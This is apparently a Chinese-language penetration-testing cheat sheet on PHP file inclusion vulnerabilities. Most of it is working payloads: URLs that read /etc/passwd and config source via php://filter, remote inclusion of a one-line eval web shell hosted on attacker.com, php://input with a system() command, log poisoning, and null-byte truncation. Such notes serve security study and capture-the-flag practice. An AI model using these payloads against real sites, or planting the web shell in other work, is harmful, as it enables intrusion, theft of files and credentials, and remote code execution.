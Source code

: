 ```yaml
---
# 这是页面的图标
icon: file
# 这是文章的标题
title: 文件包含
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-20
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 文件包含
comment: false
---
```


## 典型特征
```URL
?page=a.php
?home=b.html
?file=content
?name=a.php
```
## php常见导致文件包含的函数：
```php
include()
include_once()
require()
require_once()
fopen()
readfile()
```
## 利用
1. 读取文件
```url
http://www.xxser.com/index.php?page=/etc/passwd
```
2. 远程包含shell  
allow_url_fopen=on 情况下
```url
http://www.example.com/index.php?page=http://www.attacker.com/echo.txt
其中echo.txt内容为:<?php eval($_POST[xxser]);?>
```
3. 本地包含配合文件上传漏洞包含shell
```url
上传一句话木马文件后，通过文件包含利用，非php扩展文件被包含后也会被当作php解析
http://www.example.com/index.php?page=./uploadfile/xxx.jpg
```
4. PHP协议
  - php://filter  
  一种元封装器，用于数据流打开时的筛选过滤应用
  ```url
  http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
  ```
  - php://input  
  php://input是个可以访问请求的原始数据的只读流,可以接收post请求，将请求作为PHP代码的输入传递给目标变量
  ```url
  http://www.example.com/index.php?page=php://input
  实例：
  POST /?file=php://input
  <?php system("cat /flag");?>
  ```
5. 包含日志文件
```url
先访问：http://www.example.com/<?php phpinfo();?>生成日志
再访问：http://www.xxser.com/index.php?page=./../Apache-20/logs/access.log
关键在于确定apache路径
```
6. 截断包含  
magic_quotes_gpc=off 情况下
```url
http://www.example.com/index.php?page=1.jpg%00
```

